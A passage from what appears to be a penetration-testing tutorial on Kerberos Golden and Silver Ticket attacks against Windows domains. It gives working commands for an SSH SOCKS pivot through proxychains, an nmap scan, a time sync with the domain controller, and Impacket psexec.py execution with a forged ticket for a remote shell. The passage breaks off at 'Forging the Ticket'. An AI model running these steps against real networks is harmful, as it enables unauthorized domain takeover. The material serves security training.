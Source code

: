When we SSH into the target's Linux host, we'll provide the `-D` flag with the proxychains port. This will create a SOCKS proxy on our localhost's port that proxychains will route traffic through. For example:

```bash
ssh unpriv@10.0.10.81 -D 1337
```

To validate that the tunnel is set up properly, we can run an nmap TCP connect scan with proxychains against port 445 of the target host:

```bash
proxychains nmap -sT -Pn -p445 192.168.26.128
```

## Time Sync

Golden Ticket authentication won't work properly if the attacking machine's time is more than approximately five minutes off from the target domain's DC. We can use `net time` to check the target's time (*line 1 below*) and set the time on our attacker machine (*line 2*) if the delta exceeds five minutes:

```bash
proxychains net time -S <IP-of-DC>
proxychains net time set -S <IP-of-DC>
```

## Launch the Attack

With all the pieces in place, we can use any tool that supports ccache authentication to attack the target host. One such tool is Impacket's `psexec.py` example script. Running the following command will return an interactive CMD prompt:

```bash
proxychains ./psexec.py mbrody-da@WIN-RMJBTDB7QTF -k -no-pass
```

If you receive errors on launch, review the configuration of the dependencies and troubleshoot with `psexec.py`'s `-debug` flag.

# Silver Tickets

Silver Tickets (forged TGS tickets) authenticate a user to a service running on a host and provides attackers with stealth and persistence options not provided by Golden Tickets. For more information about Silver Tickets and their benefits, check out Sean Metcalf's post [How Attackers Use Kerberos Silver Tickets to Exploit Systems](https://adsecurity.org/?p=2011).

This attack requires a Linux host with the [Impacket Library](https://github.com/CoreSecurity/impacket) and proxychains installed and a Windows host with [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Kekeo](https://github.com/gentilkiwi/kekeo) installed. Neither host needs to be domain joined.

## Forging the Ticket

